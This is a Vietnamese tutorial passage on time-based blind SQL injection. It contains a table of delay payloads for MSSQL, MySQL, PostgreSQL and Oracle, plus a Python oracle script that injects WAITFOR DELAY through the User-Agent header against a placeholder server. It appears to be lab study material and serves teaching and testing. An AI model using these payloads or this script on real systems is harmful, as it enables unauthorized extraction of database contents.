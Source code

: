 
### **Ví dụ Payload cho các hệ quản trị cơ sở dữ liệu khác**
| **Hệ quản trị CSDL** | **Payload**                                   |
|----------------------|-----------------------------------------------|
| **MSSQL**            | `WAITFOR DELAY '0:0:10'`                     |
| **MySQL/MariaDB**    | `AND (SELECT SLEEP(10) FROM dual)`           |
| **PostgreSQL**       | `` `pg_sleep(10)` ``                         |
| **Oracle**           | `AND 1234=DBMS_PIPE.RECEIVE_MESSAGE('STR',10)`|

---

# 8. Thiết kế Oracle để khai thác Time-based SQL Injection

---

### **Lý thuyết**

- Trong kịch bản này, không có kết quả hoặc thông báo lỗi SQL nào được hiển thị từ **User-Agent header**.
- Máy chủ xử lý truy vấn không đồng bộ: trang web sẽ đợi truy vấn hoàn tất mới trả về phản hồi.
- Chúng ta có thể làm máy chủ thực hiện truy vấn SQL và:
  - **Trì hoãn phản hồi** nếu kết quả truy vấn là **True**.
  - **Phản hồi ngay lập tức** nếu kết quả là **False**.

---

### **Ý tưởng**
1. **Mục tiêu:** Kiểm tra xem truy vấn SQL có kết quả **True** hay **False**.
2. **Cách thực hiện:** 
   - Chèn truy vấn SQL trong header **User-Agent** với lệnh **`WAITFOR DELAY`** để trì hoãn phản hồi nếu kết quả là **True**.
   - Ví dụ:
     ```sql
     SELECT ... FROM ... WHERE ... = 'Mozilla Firefox...'; IF (q) WAITFOR DELAY '0:0:5'--'
     ```

---

### **Thực hành với Python**

#### **Bước 1: Xây dựng Oracle**
```python
#!/usr/bin/python3
import requests
import time

# Định nghĩa thời gian chờ (giây) khi truy vấn là True
DELAY = 5

# Hàm kiểm tra `q` có kết quả là True hoặc False
def oracle(q):
    start = time.time()
    response = requests.get(
        "http://SERVER_IP:8080/",
        headers={"User-Agent": f"';IF({q}) WAITFOR DELAY '0:0:{DELAY}'--"}
    )
    return time.time() - start > DELAY

# Kiểm tra hoạt động của Oracle với các truy vấn đơn giản
```